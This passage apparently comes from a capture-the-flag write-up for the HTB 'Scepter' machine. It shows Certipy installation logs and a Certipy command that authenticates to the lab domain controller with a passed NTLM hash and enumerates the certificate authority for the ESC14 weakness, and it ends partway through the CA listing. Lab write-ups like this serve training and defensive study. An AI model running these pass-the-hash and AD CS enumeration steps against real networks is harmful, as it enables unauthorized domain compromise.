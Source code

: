 ```shell
Using cached jinja2-3.1.6-py3-none-any.whl (134 kB)
Using cached werkzeug-3.1.3-py3-none-any.whl (224 kB)
Using cached pycparser-2.22-py3-none-any.whl (117 kB)
Using cached MarkupSafe-3.0.2-cp313-cp313-manylinux_2_17_x86_64.manylinux2014_x86_64.whl (23 kB)
Building wheels for collected packages: certipy-ad
  Building wheel for certipy-ad (pyproject.toml) ... done
  Created wheel for certipy-ad: filename=certipy_ad-4.8.2-py3-none-any.whl size=131568 sha256=18297e15689832411199755037219b6370584df1386ad6f59af682c81fd80503
  Stored in directory: /tmp/pip-ephem-wheel-cache-4gssfjfv/wheels/58/75/1d/20ef7cf022ab0f9f8fd5c5acf9de7b6a655fa00426d3f35b4c
Successfully built certipy-ad
Installing collected packages: pyasn1, asn1crypto, urllib3, six, pycryptodomex, pycryptodome, pycparser, pyasn1_modules, MarkupSafe, ldap3, itsdangerous, idna, dsinternals, dnspython, click, charset_normalizer, certifi, blinker, Werkzeug, unicrypto, requests, ldapdomaindump, Jinja2, cffi, flask, cryptography, pyspnego, pyopenssl, requests_ntlm, impacket, certipy-ad
Successfully installed Jinja2-3.1.6 MarkupSafe-3.0.2 Werkzeug-3.1.3 asn1crypto-1.5.1 blinker-1.9.0 certifi-2025.1.31 certipy-ad-4.8.2 cffi-1.17.1 charset_normalizer-3.4.1 click-8.1.8 cryptography-42.0.8 dnspython-2.7.0 dsinternals-1.2.4 flask-3.1.0 idna-3.10 impacket-0.12.0 itsdangerous-2.2.0 ldap3-2.9.1 ldapdomaindump-0.10.0 pyasn1-0.4.8 pyasn1_modules-0.4.1 pycparser-2.22 pycryptodome-3.22.0 pycryptodomex-3.22.0 pyopenssl-24.0.0 pyspnego-0.11.2 requests-2.32.3 requests_ntlm-1.3.0 six-1.17.0 unicrypto-0.0.10 urllib3-2.4.0
```

### Testing for ESC14

Next we checked the `Certficate Authority` again against `ESC14` and indeed `h.brown` was the way to go.

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/Certipy/certipy]
└─$ python3 entry.py find -u 'd.baker@scepter.htb' -hashes :'18b5fb0d99e7a475316213c15b6f22ce' -dc-ip 10.129.248.205 -esc14 -vulnerable -stdout -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'scepter-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'scepter-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'scepter-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'scepter-DC01-CA'
[*] Finding users with weak explicit mappings
[*] Found 1 users with weak explicit mapping
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : scepter-DC01-CA
    DNS Name                            : dc01.scepter.htb
    Certificate Subject                 : CN=scepter-DC01-CA, DC=scepter, DC=htb
    Certificate Serial Number           : 716BFFE1BE1CD1A24010F3AD0E350340
    Certificate Validity Start          : 2024-10-31 22:24:19+00:00
    Certificate Validity End            : 2061-10-31 22:34:19+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SCEPTER.HTB\Administrators
      Access Rights
        ManageCertificates              : SCEPTER.HTB\Administrators
```